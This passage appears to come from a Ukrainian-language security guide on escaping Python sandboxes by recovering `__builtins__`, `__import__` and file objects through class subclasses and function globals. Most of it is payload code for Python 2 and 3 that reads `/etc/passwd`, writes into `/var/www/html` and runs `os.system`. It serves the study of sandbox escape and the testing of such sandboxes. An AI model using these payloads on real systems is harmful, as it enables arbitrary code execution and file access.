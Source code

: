 - [**Builtins functions of python2**](https://docs.python.org/2/library/functions.html)
- [**Builtins functions of python3**](https://docs.python.org/3/library/functions.html)

Якщо ви можете отримати доступ до об'єкта **`__builtins__`**, ви можете імпортувати бібліотеки (зауважте, що тут ви також можете використати інші рядкові представленя, показані в останньому розділі):
```python
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```
### Немає `__builtins__`

Коли у вас немає `__builtins__` ви не зможете імпортувати нічого, а також навіть читати чи записувати файли, оскільки **всі глобальні функції** (наприклад `open`, `import`, `print`...) **не завантажені**.\
Однак, **за замовчуванням python імпортує багато модулів в пам'ять**. Ці модулі можуть здаватися безпечними, але деякі з них **також містять небезпечні** функціональні можливості всередині, до яких можна отримати доступ і навіть досягти **arbitrary code execution**.

У наведених прикладах ви можете побачити, як **зловживати** деякими з цих "**невинних**" модулів, що завантажені, щоб **отримати доступ** до **небезпечних** **функцій** всередині них.

**Python2**
```python
#Try to reload __builtins__
reload(__builtins__)
import __builtin__

# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")

# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")
```
#### Python3
```python
# Obtain builtins from a globally defined function
# https://docs.python.org/3/library/functions.html
help.__call__.__builtins__ # or __globals__
license.__call__.__builtins__ # or __globals__
credits.__call__.__builtins__ # or __globals__
print.__self__
dir.__self__
globals.__self__
len.__self__
__build_class__.__self__

# Obtain the builtins from a defined function
get_flag.__globals__['__builtins__']

# Get builtins from loaded classes
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"]
```